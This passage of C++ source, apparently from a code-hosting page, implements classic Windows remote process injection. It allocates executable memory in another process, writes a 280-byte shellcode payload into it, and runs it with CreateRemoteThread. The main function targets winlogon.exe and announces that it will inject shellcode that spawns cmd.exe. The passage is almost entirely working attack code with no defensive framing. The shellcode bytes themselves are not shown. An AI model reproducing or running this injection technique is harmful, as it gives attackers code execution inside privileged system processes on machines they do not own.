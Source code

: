 ```cpp
			*ProcId = ProcEntry.th32ProcessID;
			break;
		}

	} while (Process32NextW(hSnapshot, &ProcEntry));


	return true;
}

bool RemoteInjection(DWORD dwPid) {

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwPid);
	if (hProcess == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE HANDLE TO THE PROCESS] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[HANDLE]\n");

	PVOID pRemoteAddress = VirtualAllocEx(hProcess, nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pRemoteAddress == nullptr) {
		printf("\n[ERROR ALLOCATING THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[BUFFER]\n");

	SIZE_T BytesWritten = 0;
	
	if (!WriteProcessMemory(hProcess, pRemoteAddress, pPayload, 280, nullptr)) {
		printf("\n[ERROR WRITTING THE SHELLCODE INTO THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[SHELLCODE]\n");

	HANDLE CreateThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)pRemoteAddress, nullptr, 0, nullptr);

	if (CreateThread == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE REMOTE THREAD] -> %d\n", GetLastError());
		return false;
	}

	WaitForSingleObject(CreateThread, INFINITE);

	VirtualFreeEx(hProcess, pRemoteAddress, 0x1000, MEM_RELEASE);

	CloseHandle(hProcess);
	CloseHandle(CreateThread);

	return true;
}

int main() {

	const wchar_t* wcProcess = L"winlogon.exe";
	DWORD dwPid = 0;

	wprintf(L"\nPress <ENTER> to inject shellcode (cmd.exe) into %s process\n", wcProcess);
	getchar();

	if (!ProcessEnum(wcProcess, &dwPid)) {
		printf("\n[main] error enumerating processes\n");
```